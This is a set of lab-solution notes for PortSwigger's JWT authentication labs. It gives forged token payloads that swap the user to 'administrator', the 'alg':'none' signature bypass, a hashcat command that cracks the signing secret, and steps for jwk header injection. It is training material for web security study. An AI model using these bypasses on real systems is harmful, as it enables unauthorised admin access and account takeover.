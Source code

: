 # JWT


### Lab: JWT authentication bypass via unverified signature

Payload
```
change path :  /admin

{"iss":"portswigger","exp":1760963935,"sub":"wiener"}

{"iss":"portswigger","exp":1760963935,"sub":"administrator"}



```

### Lab: JWT authentication bypass via flawed signature verification

Payload
```
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"RS256"} 
{"kid":"d6458e13-1d6f-4510-95ed-2a634838ee97","alg":"none"}
- Remove the signature from the JWT, but remember to leave the trailing dot after the payload.

{"iss":"portswigger","exp":1760966827,"sub":"wiener"}
{"iss":"portswigger","exp":1760966827,"sub":"administrator"}

```

### Lab: JWT authentication bypass via weak signing key

Payload
```
step 1 : Brute-force the secret key

	hashcat -a 0 -m 16500 complete_jwt_tokens ./jwt.secrets.list  : secret1
	Encode in base64 secret1 : c2VjcmV0MQ==

step 2: Generate a forged signing key

	 - JWT Editor Keys tab and click New Symmetric Key : Generate
	 - Replace the generated value for the k property with the Base64-encoded secret.

step 3 - Modify and sign the JWT
		
	 - {"iss":"portswigger","exp":1760963935,"sub":"wiener"}
	 - {"iss":"portswigger","exp":1760963935,"sub":"administrator"}

	 - Sign, then select the key that you generated .



```

## JWT header parameter injections

- According to the JWS specification, only the alg header parameter is mandatory. In practice, however, JWT headers (also known as JOSE headers) often contain several other parameters. The following ones are of particular interest to attackers.

		- 	jwk (JSON Web Key) - Provides an embedded JSON object representing the key.
		-	jku (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.
		-	kid (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.

### Lab: JWT authentication bypass via jwk header injection

Payload
```

- JWT Editor Keys tab.
- Generate a new RSA key.
- JSON Web Token tab and modify the token's payload however you like.
- Click Attack, then select Embedded JWK.
- you may also need to update the JWT's kid header parameter to match the kid of the embedded key

```
